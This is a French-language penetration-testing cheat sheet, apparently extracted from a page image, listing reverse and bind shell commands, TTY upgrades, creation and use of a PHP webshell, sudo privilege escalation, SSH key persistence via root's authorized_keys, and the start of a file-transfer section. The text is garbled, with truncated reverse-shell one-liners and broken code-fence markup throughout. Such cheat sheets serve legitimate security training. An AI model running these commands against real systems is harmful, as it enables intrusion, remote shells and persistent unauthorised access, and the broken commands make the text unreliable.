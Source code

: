 ```shell
### /bin/sh -i 2>&1\
```bash
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\
```shell
### /bin/bash -i 2>&1\
```bash
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\
```shell
### Se connecter à un shell lié démarré sur le serveur distant
```bash
`nc 10.10.10.1 1234`
```shell
### Améliorer le shell TTY (1)
```bash
`python -c 'import pty; pty.spawn("/bin/bash")'`
```shell
### Améliorer le shell TTY (2)
```bash
`Ctrl+Z` puis `stty raw -echo` puis `fg` puis `Entrée` deux fois
```shell
### Créer un fichier webshell php
```bash
`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`
```shell
### Exécuter une commande sur un webshell uploadé
```bash
`curl http://SERVER_IP:PORT/shell.php?cmd=id`
```shell

```bash
**Élévation de Privilèges**
```shell
### Exécuter le script linpeas pour énumérer le serveur distant
```bash
`./linpeas.sh`
```shell
### Lister les privilèges sudo disponibles
```bash
`sudo -l`
```shell
### Exécuter une commande avec sudo
```bash
`sudo -u user /bin/echo Hello World!`
```shell
### Passer à l'utilisateur root (si nous avons accès à sudo su)
```bash
`sudo su -`
```shell
### Passer à un utilisateur (si nous avons accès à sudo su)
```bash
`sudo su user -`
```shell
### Créer une nouvelle clé SSH
```bash
`ssh-keygen -f key`
```shell
### Ajouter la clé publique générée à l'utilisateur
```bash
`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`
```shell
### Se connecter en SSH au serveur avec la clé privée générée
```bash
`ssh root@10.10.10.10 -i key`
```shell

```bash
**Transfert de Fichiers**
```shell
### Démarrer un serveur web local
```bash
```